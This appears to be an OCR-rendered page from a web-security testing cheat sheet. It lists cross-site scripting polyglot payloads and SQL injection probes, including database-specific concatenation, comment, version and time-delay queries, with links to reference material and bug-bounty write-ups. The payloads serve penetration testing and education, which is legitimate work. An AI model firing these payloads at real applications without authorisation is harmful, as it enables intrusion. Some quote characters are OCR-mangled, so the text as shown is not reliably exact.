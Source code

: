 ```

${alert(1)}

alert`1`

'-alert()-’
';alert();//
\’-alert(1)//
```

***Polyglot payloads***

```
0xsobky
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

Mathias Karlsson
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//
```

### SQL Injection
Review the following site for a cheat sheet showing specific requirements and payloads for the most common databases. This will help tailor the following payloads to your environment. For example, if your application uses MySQL, replace the `--` in the commands below with `#`.

**Resources:** https://portswigger.net/web-security/sql-injection/cheat-sheet

**Real-World Examples:** https://marxchryz.medium.com/my-bug-bounty-journey-and-my-first-critical-bug-time-based-blind-sql-injection-aa91d8276e41 \
https://rafipiun.medium.com/how-i-got-easy-for-sql-injection-bug-7ff622236e4c \

```
Oracle Concat: 'foo’||’bar’
Oracle Comment: --comment
Oracle Version: SELECT banner FROM v$version
Oracle Time Delay:dbms_pipe.receive_message(('a’),10)

Microsoft Concat:'foo’+'bar’
Microsoft Comment: --comment or can use: /**comment*/*
Microsoft Version: SELECT @@version
Microsoft Time Delay:WAITFOR DELAY '0:0:10’

PostgreSQL Concat:'foo’||'bar’
PostgreSQL Comment: --comment or can use: /**comment*/*
PostgreSQL Version: SELECT version()
PostgreSQL Time Delay:SELECT pg_sleep(10)

MySQL Concat: 'foo’ 'bar’ or can use CONCAT('foo’,'bar’)
MySQL Comment: -- (space after the double dash) or can use: /**comment*/*
MySQL Version: SELECT @@version
MySQL Time Delay: SELECT SLEEP(10)

'
''
’ AND '1’=’1
’ AND '1’=’2

In MS-SQL we can use these queries to determine if the app is vulnerable to sql injection by using delays:
'; waitfor delay '0:30:0’--
1; waitfor delay '0:30:0’--
1)waitfor delay’0:0:10’--

Here are similar examples for PostgreSQL:
select 1 from pg_sleep(5)
```